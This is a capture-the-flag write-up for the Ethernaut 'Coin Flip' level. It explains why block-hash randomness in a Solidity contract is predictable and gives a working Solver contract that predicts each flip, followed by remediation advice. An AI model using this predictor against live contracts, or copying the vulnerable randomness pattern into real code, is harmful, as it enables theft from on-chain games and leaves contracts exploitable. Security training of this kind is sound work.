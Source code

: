 ![Coin Flip](/assets/img/BigLevel3.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

This challenge gives us the code of the contract and reads:

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

The code given is:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Solution

By looking at the contract's code, we see that we can call the flip function, which takes a boolean as input and after "throwing a coin" it compares the outcome with our bet (our input) if they are the same it increments the `consecutiveWins` counter by 1, if it differs, it sets the variable back to 0. 

To solve this challenge, it says that we need to guess the correct outcome 10 times in a row.

So, how can we guess the output of the "coin flip". Well let's look at that code. To get the coin flip, it takes the last block number, gets its hash and divides it by a "factor". This will give true or false.

The problem with this "randomness" generation method is that it's not random at all! Anyone can know what the last block number is... We just need to code some kind of solver or guesser.

To do that I copied the `CoinFlip.sol` code given by the challenge and modified it, so it would "guess" what the outcome of `flip()` will be, and then call `coinFlip.flip()` with that same output:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";
import "./CoinFlip.sol";

contract Solver {
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlip;
    uint256 public consecutiveWins = 0;

    constructor(address coinFlipAddress) {
        coinFlip = CoinFlip(coinFlipAddress);
    }

    function solve() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        console.log("Solver blockValue: ", blockValue);

        uint256 coin = blockValue / FACTOR;

        bool side = coin == 1 ? true : false;
        coinFlip.flip(side);
        consecutiveWins = coinFlip.consecutiveWins();
        console.log("Consecutive wins: ", coinFlip.consecutiveWins());
    }
}
```

We can deploy this Solver contract with the ethernaut's contract address as input and then run `solve()` function 10 times.

I created a Hardhat project that will automatically deploy the contract and run the `solve()` function 10 times! You can find it here: [ethernaut-03-coin-flip-solver](https://github.com/nicolasraus/ethernaut-03-coin-flip-solver)

After running `solve()` function 10 times, we can verify that now the `consecutiveWins` variable is 10 by running:
```javascript
await contract.consecutiveWins().then(v => v.toString())
'10'
```
And that's it! We solved it :))

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

To prevent this kind of vulnerabilities do not try to generate randomness by using fields that are controlled by the miner, instead use:
- a commitment scheme, e.g. [RANDAO](https://github.com/randao/randao).
- external sources of randomness via oracles, e.g. [Oraclize](http://www.oraclize.it/). Note that this approach requires trusting in oracle, thus it may be reasonable to use multiple oracles.
- Bitcoin block hashes, as they are more expensive to mine.

# References

- [SWC-120](https://swcregistry.io/docs/SWC-120)
